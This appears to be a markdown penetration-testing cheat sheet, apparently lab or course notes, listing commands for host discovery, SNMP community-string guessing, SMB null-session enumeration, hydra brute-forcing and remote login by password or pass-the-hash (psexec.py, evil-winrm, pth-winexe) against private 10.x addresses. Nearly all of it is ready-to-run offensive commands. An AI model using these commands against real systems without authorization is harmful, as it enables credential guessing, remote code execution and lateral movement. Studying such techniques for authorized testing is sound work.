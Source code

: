 ### Alive hosts
- `netdiscover -i tap0 -r 10.10.10.0/24`
- `arp-scan -I tap0 10.10.10.0/24`
- Identify targets in IP range `nbtscan -r 10.10.10.0/24`
- Perform reverse DNS queries `nmap -sL IP`
- Metasploit's 
	- SMB module can be used for enum windows system network `use auxilary/scanner/smb/smb_version`
	- SNMP module can also be used to enum info `use auxilary/scanner/snmp/smnp_login`
### SNMP
- Commin snmp community strings 
	-	onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 10.10.10.20 
	-	[seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/SNMP/common-snmp-community-strings.txt)
	-	common strings : `public` `private` 
- onesistyone `onesixtyone -c ./common-snmp-community-strings.txt 10.10.10.5`
- snmpwalk `snmpwalk -v 1 -c public 10.10.10.20`
- snmpenum.pl [http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip](http://dl.packetstormsecurity.net/UNIX/scanners/snmpenum.zip)
	- `perl snmpenum.pl 10.10.10.5 public windows.txt` (windows.txt in zip)

### SMB
- Bruteforce
	-	`hydra -L users.txt -P /usr/share/john/password.lst 10.10.10.20 smb -f -V`
- Netbios (TCP 139 | UDP 137 138)
	- [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/0c773bdd-78e2-4d8b-8b3d-b7506849847b?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-brws/0c773bdd-78e2-4d8b-8b3d-b7506849847b?redirectedfrom=MSDN) 
	- Netbios can give us Hostname, Netbios name, Domain, Network Shares
	- UNC (Universal Naming Convention) paths `\\ServerName\ShareName\file.txt`
- Default administrative shares - `C$` C drive|`admin$` Windows installation|`ipc$` interprocess communication
- Null sessions 
	- `net view IP` `nmblookup -A ip` `smbclient -L //IP -N` `net use \\IP\C$ '' /u: ''` `smbclient //IP/$C -N` 
	- `enum -S IP` `enum -U IP` `enum -P IP`
	- `smbmap -H IP`

### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
